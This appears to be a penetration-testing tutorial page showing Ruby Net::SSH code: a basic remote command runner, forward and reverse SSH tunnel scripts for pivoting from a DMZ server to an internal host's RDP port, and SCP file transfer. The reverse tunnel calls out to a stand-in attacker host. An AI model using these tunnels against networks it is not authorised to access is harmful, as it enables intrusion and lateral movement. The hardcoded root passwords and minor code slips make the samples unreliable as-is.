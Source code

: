 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```


## Simple SSH client
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

more
https://gist.github.com/KINGSABRI/2860989

## SSH Tunneling




### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ltunnel.rb**
```ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |->-|                       |                 |                 |
                              |-----------------|-----------------|
```
Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'


Net::SCP.upload!(
		 "SSHServer", 
                 "root",
                 "/home/KING/file.txt", "/root/", 
                 :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'


Net::SCP.download!(
		 "SSHServer", 
                 "root",
                 "/home/KING/file.txt", "/root/", 
                 :ssh => { :password => "123123" }
                )
```




<br><br><br>
---





